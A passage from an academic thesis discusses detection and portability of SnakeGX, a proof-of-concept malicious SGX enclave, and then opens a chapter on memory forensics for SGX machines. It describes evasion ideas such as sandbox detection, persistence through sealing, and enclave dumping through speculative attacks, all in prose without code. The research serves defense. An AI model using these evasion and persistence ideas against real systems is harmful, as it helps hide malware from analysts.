infer specific enclave manipulations, as discussed in~\citep{216033}.
It should also be pointed out that it is still possible to retrieve 
\texttt{uRts} information.
For instance, we could compare the number of trusted threads in \texttt{uRts} 
and 
the number of trusted threads in the \texttt{ELRANGE} structure.
An inconsistency will bring to clues regarding the state of that enclave.

\textbf{Sandboxes.}
Recently, researchers proposed sandboxes to reduce the 
interaction of a malware-enclave and the system~\citep{sgxjail}.
These solutions are designed for systems that cannot assess the 
origin of an enclave beforehand, thus they do not trust it.
These defenses can, in principle, reduce the attack surface of SnakeGX.
However, since we target only systems that host known and trusted enclaves, we 
do not expect sandboxes in place.
In the worst case, we can still detect the presence of a sandbox by probing the 
process (\ie through a syscall) and interrupt the attack.

\textbf{Syscalls Trace.}
Even though the payload is hidden from reading,
it is still possible to analyze the syscall interaction of the outside-chains.
This approach has been extensively studied and it is quite common in the field 
of malware analysis.
%This is a typical approach for malware detection.
Researchers may design a tracer and superficially focus on the interaction with 
the enclave.
For instance, this tool may spot that SnakeGX generated a file operation that 
did not appear in previous interactions. In this way, analysts can infer the 
behaviour of the code inside the enclave.

\textbf{Control Flow Integrity Checks.}
Control Flow Integrity checks (CFI) are strong weapons already used
in standard programs to mitigate code-reuse attacks.
Such mechanisms rely on different strategies to force a program to execute only 
valid paths at run-time.
In the current enclave implementation, the system relies on
classic stack canary to avoid buffer overflow.
However, \cite{lee2017hacking} discussed a technique to bypass such protection.
Other non-standard systems, such as \cite{seo2017sgx}, implement a custom CFI 
to mitigate these
issues.
However, \cite{biondo2018guard} managed to bypass their protection too.
So far, there are not effective defenses against code-reuse attacks in the 
context of enclaves.
This approach might raise the bar for attackers who would attempt to deploy 
SnakeGX or to perform code-reuse attacks in general.

\textbf{Detecting Fake Structures.}
SnakeGX exploits the possibility to craft fake structures
that are used in critical \texttt{tRts} functions, \ie \texttt{ocall\_context}.
We deeply analyzed this issues and proposed mitigation strategies in 
Section~\ref{ssec:ocall-limitation}.

\section{Discussion}
\label{sec:discussion_snakegx}

Here, we discuss various aspects of SnakeGX generalization.

\subsection{SnakeGX Portability}
The current implementation of SnakeGX is based on a specific version 
of the Intel SGX SDK, for a specific application and operating system.
In this section, we study the portability of our PoC and show the approach 
is generic and can be easily adapted to other SDKs and OSs.
%We study the portability of SnakeGX in other scenarios.
%Recently, new TEE frameworks were proposed on the market, or as research 
Recently, new SGX frameworks were released on the market, or research 
prototypes, to provide an abstraction layer that simplifies the enclave 
development.
In particular, projects such as Open Enclave~\citep{openenclave}, Google 
Asylo~\citep{asylo}, and SGX Shield~\citep{baumann2015shielding} 
use the standard Intel SGX SDK to perform host 
interaction (\ie \texttt{OCALL}/\texttt{ORET}), thus inheriting the same 
limitations described in Section~\ref{sec:sgx-internal}.
From our point of view, we can implant SnakeGX in any enclave developed with 
these frameworks if they follow our threat model assumptions 
(Section~\ref{sec:threat-model_snakegx}).
We also analyzed the Intel SGX SDK for Windows, in which we found and tested 
the same flaw described in our work.
Finally, the standard \texttt{tRts} libraries contain all the gadgets used in 
our PoC.
In general, SnakeGX can potentially affect enclaves developed on different
SDKs as long as: 
\begin{enumerate*}[label=(\roman*)]
	\item they are abstraction layers of the Intel SGX SDK, or
	\item they use a host interaction that relies on unprotected structures 
	like \texttt{ocall\_context}.
\end{enumerate*}
In this paper, we proposed an instance of SnakeGX targeting StealthDB on Linux. 
However, the idea is generic and the persistence, stateful, and context-switch 
properties can be found and achieved also in other OSs and popular SDKs based 
on the Intel one.

\subsection{Persistence Offline}
%\textbf{Persistence Offline.}
%\subsection{Persistence Offline}
%Similar to Vogl work~\cite{vogl2014persistent}, SnakeGX keeps persistence in 
%memory as long as the host enclave is loaded. 
SnakeGX maintains persistence in memory as long as the host enclave is loaded.
This is similar to what \cite{vogl2014persistent} have shown with ``Chuck''.
In their proof of concept they achieved persistence on the running system. 
Their ROP rootkit did not survive after reboot.
%In our scenario, to achieve a full persistence once the enclave is restarted, 
%we should exploit sealing mechanism.
In our scenario, SnakeGX may achieve a more complete persistence by exploiting 
the sealing mechanism.
In this case, the malicious payload would not be affected if the enclave is 
restarted.
%That is, a common SGX practice is saving enclave statues (\ie its data) before 
%the enclave shouts down.
This sealing mechanism is a common SGX practice. It saves the enclave state 
(\ie its data) before the enclave shuts down.
%This is done by using a sealing mechanisms, if the victim enclave has a 
%loophole in the restoring phase, this could be exploited to inject SnakeGX 
%again after a reboot.
If the victim enclave has a loophole in the restoring phase, this could be 
exploited to inject SnakeGX again after a reboot.
However, this is strictly enclave-dependent and therefore we did not include in 
our discussion and it is left for the future.

%\todo{loose persistence once the enclave is switched off.}
\subsection{SnakeGX 32bit}
%\paragraph{SnakeGX 32bit.}
%\todo{32 bits.}
In this paper, we designed our PoC for $64$bit architectures.
%However, Intel allows $32$bit code to run in enclaves.
However, Intel SGX supports also $32$bit code to run in enclaves.
From our point of view, the main difference between $32$bit and $64$bit is the 
calling convention.
%Therefore, the techniques we used for SnakeGX can be adapted also in a $32$bit 
%scenario.
Therefore, the techniques we discussed and used for SnakeGX are still valid and 
can be easily
ported to $32$bit applications.

\chapter{Memory forensic in SGX environments}
\label{chp:forensic}


In this chapter, we take the role of a forensic analyst who is analyzing a copy 
of the physical memory acquired on an SGX-enabled machine. 
Many different variables can affect the analysis, including the way the memory 
image was acquired, the kernel drivers used to assist SGX operations, or the 
use of a certain SGX development framework. In this polyhedric scenario, we 
want to provide a clear guideline that helps a forensic analyst untangle the 
possible cases in an SGX-machine inspection. Our study shows which artifacts 
can be extracted in each case and discusses sound methodologies to extract those
artifacts.

We systematically evaluate our techniques in two different environments (a 
bare-metal machine and a VM in the Azure cloud) by using a set of $45$ SGX 
applications, a commercial SGX development framework~\citep{conclave}, and two 
state-of-the-art examples of malicious enclaves~\citep{sgxrop,snakegx}.
In all scenarios, our system was able to correctly detect and identify the
\emph{enclaves}, retrieve information about the
internal \emph{enclave} architecture, and identify their system interfaces
(\eg network communications or file-system access).
Furthermore, we discuss three practical use cases in which our techniques
can support an analyst to dissect a real application and two malicious 
\emph{enclaves}.

\vspace{0.2cm}
\noindent \textbf{Contribution.} In summary, we make the following 
contributions:
\begin{itemize}
	\item We discuss the limitation of current forensic analysis in 
	SGX-machines.
	\item We study which information can be extracted from a machine running 
	SGX \emph{enclaves} and propose new techniques to support their detection, 
	identification, and analysis (Section~\ref{sec:memory-forensic-sgx}).
	\item We evaluate our techniques on both open- and close-source projects, 
	and malware-enclave samples (Section~\ref{sec:memfor_evaluation}).
	Our open-source proof-of-concept tools are available 
	at \url{https://github.com/tregua87/sgx-forensic}.
\end{itemize}

\section{Threat Model}
\label{sec:system-assumptions}

In this work, we assume enclaves are correctly loaded in memory and
isolated from the other parts of the system thanks to the SGX technology.
In particular, we face two scenarios.
In the first case we assume that the enclave is operated by using a known
OS driver to handle the enclave pages and (for the user space analysis) the
application was developed by using a known SGX framework. 

In the second, more challenging, case, we remove these assumptions and consider
the case in which the analyst does not know the SGX drivers 
and has no information about the adopted development framework.

\section{Memory Forensic in SGX environment}
\label{sec:memory-forensic-sgx}

%\begin{figure}[t]
%	\centering
%	
\includegraphics[width=\linewidth]{fig_c8/memory-acquisiton-map.pdf}
%	\caption{Mind map of memory acquisition.}
%	\label{fig:question-mem-aquisition}
%\end{figure}

\begin{sidewaysfigure}
	\centering
	%	\begin{minipage}{\linewidth}
	
\includegraphics[width=\linewidth]{fig_c8/final_schema_sgx.pdf}
	\caption{The flowchart describes the workflow of an SGX-machine inspection 
		and depicts the three main phases: memory acquisition, kernel space, 
		and 
		user space analysis.
		The diamonds represent different conditions that can be 
		encountered (\eg \emph{Is microcode vulnerable?}), each condition leads 
		to 
		different class of information (\eg if the microcode is vulnerable, we 
		can 
		\emph{Dump using CPU speculative attacks}). Green-arrows with symbol 	
		``Y'' indicate the available information if a condition is satisfied, 
		while 
		red-arrows with symbol ``N'' otherwise.
		In addition, every box contains detailed pieces of information that we 
		mark 
		with the symbol ``$+$'' if they are always retrievable, while we use 
		the 
		symbol ``$(+)$'' if their availability depends by the system state (\eg 
		a 
		system log that might be wiped). 
		The technical details of each phase is detailed in their relative 
		section.}
	\label{fig:analysis-map}
	%	\end{minipage}
\end{sidewaysfigure}


%\textcolor{red}{
In this section, we tackle the various scenarios an analyst can face while 
inspecting an SGX-machine.
We split our study in three main phases: memory acquisition 
(Section~\ref{ssec:memory-dump}), kernel space analysis 
(Section~\ref{ssec:kernel-space-analysis}), 
and user space analysis (Section~\ref{ssec:user-space-analyses}).
For each phase, we discuss the possible conditions 
that an analyst can encounter, propose new analysis methodologies, and describe 
which information can be 
gathered from the system.
To clarify the different possibilities and provide a useful support for 
the analyst, we summarize the SGX forensics process into the flowchart in 
Figure~\ref{fig:analysis-map}.
The image contains all the scenarios discussed in our study and can serve
as a high-level guide for an SGX-machine inspection.
The map distinguishes, left to right, the three main phases described above 
(\ie memory 
acquisition, kernel-, and user-space analysis).
Each diamond identifies a different condition (\eg \emph{Dump tool support 
	SGX?}), while boxes synthesize the action that can be performed (\eg 
	\emph{Detect SGX 
	capabilities from kernel structures}) and the  
fine-grain information that can be recovered (\eg \emph{SGX HW 
	availability}). In this case, we use the symbol ``$+$'' to refer to a piece 
	of 
information always present, and the symbol ``$(+)$'' if the information might 
be present
(\eg a system log that might be wiped).
The details about each phase are described in the next sections.

\subsection{Memory Acquisition}
\label{ssec:memory-dump}

As explained in Section~\ref{sec:software-guard-extension}, each SGX enclave is 
composed of a set of encrypted physical pages which reside in an EPC memory 
zone. The CPU exposes the EPC memory zones as special MMIO devices not as part 
of the main memory of the system. For this reason, the OS does not include them 
in data structures that map all the ordinary memory regions available. However, 
the kernel is able to map EPC pages in the virtual-address space even if a 
direct read of their content returns a constant value (\ie \texttt{0xFF}) due 
to the SGX secrecy protections. Only when an enclave is running in debug mode, 
a kernel thread can dump the plain content of the enclave memory by using the 
special opcode \texttt{EDBGRD}. Ordinary dump tools, which relies on the 
operating system data-structures to identify available zones of the memory 
containing data, fail to find and dump the EPC zones. An SGX awared dump tool 
can overcome this limitation by querying
the CPU using the \texttt{CPUID} instruction~\citep{intel-developer-guide}, 
which permits to retrieve various configuration parameters including if SGX is 
present and enabled, all the EPC zones
defined on the system, their physical addresses, and sizes and the microcode
revision. It is important to note that this query to the CPU is based only on
opcodes and does not affects in any way the content of RAM, its
correctness, and coherency. 
Previous works that investigated malicious applications of SGX argued that, in 
practice, an adversary is incentivized to use enclaves in debug mode for 
deploying malware~\citep{zhang2018memory}.
This because compiling an enclave in release mode requires to contact 
Intel, thus publicly exposing own identity.
Therefore we have developed a dump
tool which localizes the EPC zones, independently by the OS data-structures, 
marking them in the dump, and,
using \texttt{EDBGRD} opcode, saves pages related to debug-mode enclaves, 
without any information
on the number and exact location of them. This also permits to dump those
pages associated to past debug-enabled enclaves, which are not associated 
to a host process anymore.

% To this end, we have developed a modified version of the
% LiME~\cite{lime} kernel module able to identify all the EPC ranges available 
%on
% the machine (by using specific \texttt{CPUID} 
%leaves~\cite{intel-developer-guide})
% \ao{leaves it's the terminology used by Intel itself to define the various 
%branches used by CPUID opcode (it's a tree of subcommands)}
% and dump them. If the EPC zone contains pages belonging to a debug-enabled SGX
% enclave the module is able to retrieve their content. Otherwise, it returns a 
%page filled with
% \texttt{0xFF} bytes.
% By saving an entire EPC zone, without any information on the
% number and exact location of enclaves running in the system, also permits to 
%retrieve those
% pages associated to past debug-enable enclaves which are not associated 
%anymore with a
% host process.

% \db{we do not say that none of the existing tools dumps them and why. What is 
%the challenge?}

\vspace{0.2cm}
\noindent \textbf{CPU speculative attacks as forensics pinlock} --
% \ft{I guess this work should be included here Zhang et 
%al.~\cite{zhang2021see}}
% \ao{Zhang non e' adatto perche ricava informazioni sul comportamento dell 
%enclave ma non sul contenuto coerente della memoria, in pratica non dumpa 
%l'enclave a meno di non conoscere gia come funziona il suo codice, il che e' 
%un 
%controsenso.Gli attacchi a cui mi riferisco leggono l enclave senza sapere 
%nulla di come e' organizzata e quindi permettono di dumparle. In piu Zhang 
%sembra orientato alla difesa dell enclave che non e' il nostro caso}
Enclaves that run in release mode continue to be blind spots from the analyst
point of view. A possible way to dump the content of non-debug enclaves and
gaining a complete vision of the system status is to exploit CPU speculative
attacks. These classes of attacks, as summarized by \cite{nilsson2020survey},
allow an attacker to dump the content of an enclave even if it is not in debug
mode. In particular, \cite{vanbulck2018foreshadow} proposes 
Foreshadow-SGX and \cite{sgaxe} SGAxe, that permit to recover the content of 
the enclave with high accuracy in a finite time and without any knowledge of 
their internals. It is
important to note that all these attacks rely on CPU hardware bugs which are
quickly fixed by Intel through patched microcode updates. These updates are
fundamental to run enclaves which require remote attestation because in this
case attestation servers checks the microcode revision and only attests the
enclave if it is running on a fully-patched CPU. On the other hand, patched
microcode must be applied by the final users or released as BIOS updates by
motherboard producers and often require a machine reboot in order to be
enabled. System administrators of mission-critical servers, non-expert users and
unmanaged systems could delay the installation of patched microcode thus
permitting in certain cases to an SGX awared dump tool to exploit them to dump
also non-debug enclaves. In this case, the SGX-aware dump tool
can retrieve the microcode revision of the CPU by using the \texttt{CPUID} 
opcode, and if it is vulnerable to speculative attacks it can extract the 
content of enclaves running also in release mode.

\subsection{Kernel Space Analysis}
\label{ssec:kernel-space-analysis}

If the dump tool is not SGX-aware, no additional information about the SGX
configuration is collected from the machine at the acquisition time.
However, as shown in Figure~\ref{fig:analysis-map}, an analyst can deduct
these pieces of information by analyzing kernel data structures. For
example, it is possible to retrieve EPC zones by looking at the
\texttt{iomem\_resource} data structure, that contains MMIO mapped devices
(as shown in \texttt{/proc/iomem} on live systems). It is also possible to
extract logs lines from kernel logging facility (\texttt{dmesg}) in-memory
buffer. However, both data sources are not always available: early log
entries can be overwritten if the machine has a long uptime and some BIOS
vendor does not export EPC zones addresses as MMIO memory regions, making
them unavailable in \texttt{iomem\_resource}. 

When the status of the SGX hardware on the machine is not available, any
further analysis is more difficult and can result in a larger number of
false positives.

As explained in Section~\ref{sec:software-guard-extension}, SGX enclaves rely 
on the kernel to manage memory allocations: the kernel traces all pages 
allocated to the enclaves, assigns new ones when required, and evicts them when 
it no longer needs them. Furthermore, the kernel traces all the enclaves 
associated with a process and maps the enclaves' pages into the virtual address 
space of their host process. Non-monolithic kernels, as Linux and Windows, use 
specific drivers to manage enclaves. These drivers permit the user space 
enclave loader to the load the enclave pages inside the EPC memory. In 
particular, on Linux, there are two open-source drivers, developed by Intel, 
\texttt{isgx}~\citep{sgxdriver} and \texttt{DCAP}~\citep{sgxdcap}, which share 
very similar structure and functionalities. From a forensic perspective, the 
need of keep track of the enclaves status by the kernel allows to recover 
information on the enclaves present in a memory dump by analyzing the 
data-structures allocated by the kernel modules.

\begin{figure}[t]
	\centering
	
\includegraphics[width=0.8\linewidth]{fig_c8/sgx_driver}
	\caption{Relation between the kernel and Intel drivers data-structures}
	\label{fig:struct_sgx}
\end{figure}

Figure~\ref{fig:struct_sgx} shows the Intel drivers structures that handle the
enclaves pages. The drivers allocate private data-structures under the
\texttt{vm\_private\_data} space of the enclave's host process, which is
contained in an \texttt{vm\_area\_struct}. \newline
The \texttt{vm\_private\_data} contains information about the ELRANGE. The
\texttt{sgx\_encl} structures maintain:
\begin{enumerate*}[label=(\roman*)]
	\item the enclave load address,
	\item a list of the EPC pages allocated,
	\item the status flags of the enclave (\eg flags which indicate if an
	enclave is in debug mode, has performed cryptographic operations, the CPU
	capabilities required etc.) and,
	\item a linked list to the other enclaves instantiated on the system (this
	only for the \texttt{isgx} driver) which permits also to recover ``zombie''
	enclaves (\ie enclaves detached by the host process but not yet
	deallocated).
\end{enumerate*}

\vspace{0.2cm}
In the case in which the kernel uses a module unknown to the analyst, it is 
still possible
to rely on heuristics to determine the presence of an enclave in a process. In 
fact, the
enclaves pages have to reside in an EPC memory zone that is exposed by the CPU
as a separate hardware device, and the driver must threat it accordingly. For
example, on Linux systems, memory pages associated with MMIO devices, like SGX,
must be marked as \texttt{VM\_PFNMAP} and \texttt{VM\_IO}, which allows the
kernel to treat them in a special way with respect to ordinary memory 
operations. 
Therefore, to identify if a process has an associated
enclave, an analyst can check if it has memory pages flagged as part of special 
memory
zones without using any knowledge about the internal of the driver. Furthermore,
if the dump was performed by using an SGX-aware tool, it is also possible to
check if the candidate pages reside in an EPC zone to reduce false positives 
(\eg
processes which map common MMIO devices as graphic cards). However, this 
driver-agnostic
approach comes at a cost: it is not possible to determine the enclave base
address and its flags. These information are stored in the SECS page which is
not accessible, and can be recovered only if 
a copy is maintained into known driver data structures.

The code of an SGX enclave is distributed as dynamic library file (\texttt{.dll}
file under Windows and \texttt{.so} file under Linux). However, in contrast to
ordinary dynamic libraries, the enclave code is not loaded by the binary loader 
of the
system but it is loaded inside the memory enclave by an auxiliary dynamic
library. This process could leave,
in theory, various pieces of evidence in the kernel data structures.
For instance, caches
associated to the file descriptor of the loading library could contain traces of
the enclave code file.
However, the default library deployed
by Intel does not leave any trace of the original ELF loaded in the
kernel.
Furthermore, the security implementation of SGX offers a mitigation to the
possible information leaked due to the enclave loading 
(reducing the evidence from a forensics point of view): the code file containing
an enclave in release mode can be encrypted during the build, loaded inside the
enclave and decrypted only inside the protected memory~\citep{sgx-cypher}. 

However, if we have performed a dump with an SGX-aware tool, we can reconstruct
the ELF file loaded into the enclave starting from the content of the enclave
itself. This permits, if the dump also contains pages of enclaves in release
mode, to bypass the encryption technique used by the author to hide the content
of the ELF file loaded  since we extract the decrypted version of the ELF
directly from the enclave memory.

\subsection{User Space Analysis}
\label{ssec:user-space-analyses}

Since enclaves need a user-space component to interact with the system,
an analyst can gather information by analyzing structures that reside 
